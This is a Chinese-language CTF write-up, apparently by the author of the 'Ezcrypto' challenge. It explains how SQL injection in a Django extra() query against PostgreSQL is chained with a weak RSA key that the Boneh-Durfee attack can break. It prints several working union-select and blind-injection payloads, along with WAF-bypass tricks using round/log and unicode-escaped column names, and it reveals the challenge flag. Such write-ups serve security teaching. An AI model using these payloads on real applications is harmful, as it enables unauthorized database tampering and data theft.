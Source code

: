 ## 前言
Ezcrypto设计的初衷是上学期上密码学课的时候看了Dan Boneh的"Twenty Years of
Attacks on the RSA
Cryptosystem"，感觉很多RSA相关的攻击都是基于这篇文章提到的内容进行变形完成的，然后想着web狗应该也要会点密码学，于是出了这个题。Ezcrypto的密码学部分的确是很赤裸很简单，本质上还是一道Sql注入的题目。

### 密码学部分
本题的flag由root的密钥进行加密，且密钥生成是安全的。
但是user的密钥生成过程中，采用了从数据库中读取到的lowlimit以及uplimit作为私钥的上下界来生成。由于上界定在了0.4，因此这样的密钥生成存在有Boneh and Durfee attack的场景，即生成一个私钥的上界小于0.292时，N可以被分解。攻击脚本可以参考以下链接https://github.com/mimoo/RSA-and-LLL-attacks/blob/master/boneh_durfee.sage

### 修改lowlimit
本题的第一考点就在于如何修改lowlimit以及uplimit的值。数据库操作均采用Django原生的ORM来实现，后端数据库为Postgresql。代码中只有在当前密钥加密次数用完时才会调用create_key去生成新的密钥，但是在这部分逻辑中，采用了限制很严的wafd以及限制括号次数的方式来保证不能在这部分逻辑中直接通过union select的方式来返回一个小数比如0.254之类的数，去让lowlimit和uplimit满足条件。因此我们需要在分支的第一部分中，尝试将数据库中的lowlimit和uplimit的值进行修改，在分支的第二部分中利用create_key去生成新的密钥。
我们可以很明显的发现有一处数据库操作是有问题的。
```
records = Record.objects.extra(
    where=['username=%s', 'message!=%s', 'luky!={0}'.format(luky)],
    params=[user, message]
)
```
luky处没有采用到ORM语法的方式，而是采用了类似字符串拼接的方式来传入数据。当然，Django在采用extra来做查询的时候，我也只知道了`%s`的方式来安全的传参，对于数值型数据，我没有找到对应的方法，也就是说如果你用extra来写sql查询，的确可能存在类似上述的写法的存在。  
现在的问题变成了当你拥有一处Select型的注入的时候，你怎么去修改数据库中的值。这里需要用到一个Django的ORM在实现的时候我个人认为没有做好的地方来完成这一点。因为观察代码我们知道，recordone在被select出来以后，后续会通过save函数进行更新，也就是update操作。那么如果我们将select的内容控制成我们想要的结构，意味着Django会update一个由我们控制的对象，而不是只是修改了代码中对应位置的对象。这一点在Flask中就不存在，Flask只会update在代码中显式更改的部分。  
有了一个可控的update以后，我们还需要绕过wafs中对于`.-`的限制，即你不能直接通过小数或者科学计数法来表示一个纯小数。这部分应该会有各种各样花式的方法，这里提供一种方法是利用log和round函数来做到这一点，即round(log(80,3),3)=>0.251
这部分的payload为
```
47) union select "id",round(log(80,3),3),round(log(75,3),3),"username","secretroot",U&"Nu!0073er" UESCAPE '!',U&"Eu!0073er" UESCAPE '!',"secretuser","message","luky" from "Record" where ("username"='test'
```

### 控制root密钥
第一步我们已经控制了user的密钥，使其变得不安全可以采用Boneh and Durfee attack来分解N。但是flag是有root的密钥加密的而不是user。观察代码我们可以发现，在分支的第一部分，一直采用的是session中的值进行的加密，而不是数据库中的值。而root的session中的密钥在分支第二部分重新生成时会更新。
```
request.session['root_N'] = Nroot
request.session['root_E'] = Eroot
request.session['root_flag'] = root_flag
request.session[recordone.username + '_N'] = Nuser
request.session[recordone.username + '_E'] = Euser
request.session[recordone.username + '_flag'] = user_flag
```
观察以上代码可以发现，root_N和root_E先赋值，而recordone.username由于注入存在的关系，是我们可控的，因此我们可以通过控制recordone.username来使得session中的root_N和root_E错误的被Nuser和Euser来控制。也就意味着我们可以使得flag由一组脆弱的N和e生成。
这部分的payload为
```
47) union select "id","lowlimit","uplimit",'root',"secretroot",U&"Nu!0073er" UESCAPE '!',U&"Eu!0073er" UESCAPE '!',"secretuser","message","luky" from "Record" where ("username"='test'
```

### 恢复用户名
上一步会将对应用户的用户名改变为root，这会影响到最后获取Nuser和Euser的值，因此在这里需要将用户名恢复过来。
```
47) union select "id","lowlimit","uplimit",'test',"secretroot",U&"Nu!0073er" UESCAPE '!',U&"Eu!0073er" UESCAPE '!',"secretuser","message","luky" from "Record" where ("id"=1
```
同时输入一组正常的message和luky来获得一个使用Nuser和Euser加密的flag。

### 盲注Nuser和Euser
最后一步就是获取到数据库中的Nuser和Euser用于Boneh and Durfee attack来分解。这里有两个问题。一是分支第一部分只有三次机会使用当前密钥，如果机会用完则密钥会更新。这里不存在直接回显即得的注入，只能通过盲注来完成。所以我们需要构造一个不会减少使用密钥次数的请求，且存在盲注需要的两种状态。  
关注这部分代码
```
if len(records) == 0:
    content = "<script>alert('必须修改明文和幸运数字');window.location='/';</script>"
    return HttpResponse(content)
```
我们可以通过返回0个查询来触发这种状态。
第二个状态是来自这句代码
```
user_flag = crypt(message, request.session[recordone.username + '_N'], request.session[recordone.username + '_E'])
```
因为recordone.username是我们可控的，如果是一个session中不存在的键值，Django会抛出一个500错误的响应，这样即完成了两个状态，又使得代码不会走到使用次数减少的位置。
第二个问题是，Nuser和Euser这两个列名被禁止了，同时禁止了常见的一些表列名被禁止时的做法。此处用到了Postgresql特有的一个trick，最早在hitcon2017的SQL so Hard非预期解中被提及，我感觉这个知识点国内好像不怎么提，所以特地再拿出来说一遍。Postgresql可以采用`U&"Eu!0073er" UESCAPE '!'`的方式来转义unicode字符，同时Postgresql的单引号和双引号是有明确含义的，而不是像Mysql那样存在混用的现象。即双引号可以用来表示列名而单引号则用来表示字符串。因此`U&"Eu!0073er" UESCAPE '!'`这样的表示不会存在字符串的歧义，而是准确地表示了列名的含义。  
盲注的测试payload为
```
47) union select "id","lowlimit","uplimit",'a',"secretroot",U&"Nu!0073er" UESCAPE '!',U&"Eu!0073er" UESCAPE '!',"secretuser","message","luky" from "Record" where "id"=1 and (case when (substring(U&"Nu!0073er" UESCAPE '!' from 1 for 1)='1') then true else false end
```

本题相对过程比较复杂，主要考察了RSA的基本攻击方式、Django ORM的一个问题以及Postgresql的一些特性，有点烦，所以flag原本设置也是叫`NeSE{mix_up1s-alittle^disgusting}`